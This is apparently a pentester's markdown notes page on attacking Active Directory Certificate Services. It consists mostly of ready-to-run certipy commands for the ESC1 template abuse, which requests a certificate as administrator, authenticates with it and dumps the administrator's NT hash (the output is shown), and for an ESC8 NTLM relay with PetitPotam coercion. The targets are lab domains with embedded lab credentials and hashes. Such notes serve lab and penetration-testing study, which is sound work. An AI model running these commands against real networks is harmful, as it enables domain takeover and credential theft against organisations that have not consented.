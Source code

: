 ```yaml
---
title: "AD CS"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## ESC1

**Find vulnerable certificate templates :**
```sh
certipy find -u 'banking$'@retro.vl -p 'TestPass!2' -dc-ip 10.10.65.99
```

**Impersonate an admin :**
```sh
certipy req -username 'banking$'@retro.vl -password 'TestPass!2' -target-ip 'dc.retro.vl' -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator@retro.vl'  -debug -key-size 4096


certipy req -username 'FRAJMP$'@heron.vl -hashes 6f55b3b443ef192c804b2ae98e8254f7 -target-ip '10.10.251.229' -ca 'heron-CA' -template 'HybridComputers' -upn 'Administrator@heron.vl'  -debug -key-size 4096 -dns heron.vl
```

Then you can transform the generated **certificate to** `**.pfx**` format and use it to **authenticate using   certipy** again:
```sh
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.65.99
```

- Result : 
```sh
[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

## ESC8 :

```sh
certipy relay -ca "bruno-BRUNODC-CA" -target brunodc.bruno.vl -template KerberosAuthentication
```

```sh
petitpotam.py -d 'bruno' -u 'svc_scan' -p 'Sunshine1' 10.8.3.12 $t
```
